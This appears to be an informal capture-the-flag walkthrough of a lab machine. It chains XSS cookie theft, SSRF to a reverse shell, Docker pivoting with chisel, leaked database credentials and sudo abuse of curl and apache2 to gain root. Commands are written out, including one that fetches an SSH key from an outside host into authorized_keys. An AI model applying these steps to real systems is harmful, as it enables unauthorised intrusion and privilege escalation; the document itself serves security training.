 Started with a nmap scan
```
22 OpenSSH 8.9p1
80 Apache 2.4.61
9000 Apache 2.4.52
```
Nmap shows us there is a robots.txt file on the webhost on port `80` and there is three entries one of them redirects to a domain `/harm/to/self` goes to `robots.thm` when we go to the site now we get a login and a register page when we make a account we need to take are username and day/month and make it a md5 hash and that's the password for the account we made when we login it reflects are username to us trying xss and we got the alert to open ive tested a lot of polyglots and only found xss to trigger 

The webhost on port `9000` seems to have nothing on it 

Going back to the other webserver it is leaking its `server_info.php` and the admin does login in every few seconds but the `httponly` flag is set  so we cant take cookies test the registration page for sql injections also tested the login page for sql injections found nothing did a subdomain scan and also found nothing going back to trying to steal the admin cookie I finally was successful with it there is a script on hacktricks and make the account agin and now we have the admin cookie and we can access the `admin.php`  and its a test url with a input box testing if we have SSRF if we input are ip and host a webserver it calls out to us and hosting a php script that does whoami and then having the site call it and we get `www-data` and we can just replace this whoami command with a reverse shell and now we have access to the server from running linpeas and looking at the hosts file we in a docker container we need to run chisel and then try nmaping the docker network scanning the network we found that on ip `172.18.0.2` has mysql running and we did find some creds in the docker in the `config.php` file after we forward the port we can login into the mysql database now and there is a database called `web` and has a user with nologon permissions user `rgiskard:rgiskard2209` maybe we can use these creds for ssh but the plain password does not work but the md5 hash from decrypting it does when running `sudo -l` we can run curl as the other user `sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file://home/dolivaw/user.txt` now we have the user flag now we need to use this to add are public key to the `authorized_keys` file 
`sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.6.37.77/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys` now we have access to the next user when we run `sudo -l` we can use `apache2` as root with no password going to GTFObins there is a sudo one for apachectl
 we can usr but when we try it says the web root is not defined if we define it we can get the root flag `sudo apache2 -C 'Define APACHE_RUN_DIR' /tmp -C 'Include /root/root.txt' -k stop` 
